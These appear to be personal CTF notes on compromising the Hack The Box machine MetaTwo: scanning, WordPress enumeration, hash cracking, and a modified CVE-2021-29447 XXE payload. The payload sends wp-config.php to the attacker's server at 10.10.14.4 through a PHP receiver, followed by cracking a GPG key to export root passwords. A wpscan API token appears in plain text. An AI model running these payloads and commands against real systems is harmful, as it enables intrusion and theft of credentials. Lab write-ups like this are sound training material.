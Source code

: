 `sudo nmap -sC -sV -p- -T4 -oN metatwo 10.10.11.186
`
![[Pasted image 20240529153027.png]]


we got ftp, http and ssh 

I tried ftp anonymous , but didn't lead us anywhere 

let's go explore the port 80 

==wordpress== , I tried admin:admin but didn't help 
![[Pasted image 20240529153402.png]]

if we look around and we tried to read the source page of the wordpress files we will found the following 
![[Pasted image 20240529153826.png]]

if we google this plugin
![[Pasted image 20240529153948.png]]

![[Pasted image 20240529154459.png]]

![[Pasted image 20240529154537.png]]let's crack them 
`hashcat -a 0 -m 400 hashe --user --show

![[Pasted image 20240529160523.png]]
let's login as a manager 

we got access as a manger 

let's enumerate using ==wpscan ==
`wpscan  --url http://metapress.htb --enumerate ap --api-token CvPFdrygDgoTsTqclRanY8Xdf0r5iyLSNIP > wpscan_enumerate_ap
`
![[Pasted image 20240529160827.png]]

I will use this https://github.com/0xRar/CVE-2021-29447-PoC but I will modifcate I liitle 

in the evil.dtd 
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:80/index.php?content=%file;'>" >


```

this will get us file on ==base64==  we can use php script to decode it on index.php
```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```


now let's upload the ==payload.wav==  

and run our server
`php -S 0.0.0.0:80`
![[Pasted image 20240529161315.png]]

http://metapress.htb/wp-admin/upload.php
![[Pasted image 20240529161402.png]]

on our php server 
![[Pasted image 20240529161519.png]]


we got ftp creds , after login we find a file ==send_email.php==
and we got ssh creds on it
![[Pasted image 20240529161638.png]]

![[Pasted image 20240529161705.png]]

interesting directory![[Pasted image 20240529161736.png]]

![[Pasted image 20240529161815.png]]

this utility used to store password and it encrypts them using the ==.keys== 
![[Pasted image 20240529161911.png]]

let's move the private key to out machine and crack it 

`gpg2john gpg > hashes `
![[Pasted image 20240529162050.png]]
`john wordlist=/usr/share/wordlists/rockyou.txt hashes`
![[Pasted image 20240529162311.png]]
`passpie export root` 
![[Pasted image 20240529162504.png]]
![[Pasted image 20240529162614.png]]